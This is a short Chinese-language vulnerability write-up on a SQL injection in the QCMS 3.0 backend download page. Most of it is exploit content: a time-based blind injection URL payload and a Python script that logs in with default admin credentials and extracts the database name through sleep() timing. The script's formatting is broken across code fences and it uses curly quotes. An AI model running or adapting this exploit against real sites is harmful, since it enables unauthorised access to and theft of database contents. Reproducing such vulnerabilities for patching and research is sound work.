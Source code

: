 ```yaml
---
title: "QCMS 3.0 sql注入漏洞"
id: zhfly3098
---
```


# QCMS 3.0 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

在后台下载管理处

![image](../img/07a12d4529b003556f59a16b8a31beef.png)

构造payload

```
http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23 
```

这里直接附上简单脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory
import requests

def getCookie():

url = ‘[http://127.0.0.1/admin.php](http://127.0.0.1/admin.php)’

data = {

‘username’:‘admin’,

‘password’:‘admin’

}

```
session = requests.session()
res = session.post(url, data)

return requests.utils.dict_from_cookiejar(res.cookies) 
```

def getDatabase(url, arr, cookies):

```
str = ''
requests.session()

for i in range(1, 11):
    for j in arr:
        data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
        # print(data)
        res = requests.get(url=data, cookies=cookies)
        # print(res.elapsed.total_seconds())
        if(res.elapsed.total_seconds() &gt; 5):
            str += j
            print(str)
            break
print('database=' + str) 
```

if **name** == ‘**main**’:

url = ‘[http://127.0.0.1/backend/down.html](http://127.0.0.1/backend/down.html)’

arr = []

```
for i in range(48, 123):
    arr.append(chr(i))

cookies = getCookie()
print(cookies)
getDatabase(url, arr, cookies) 
``` 
```

## 参考链接

> https://xz.aliyun.com/t/7269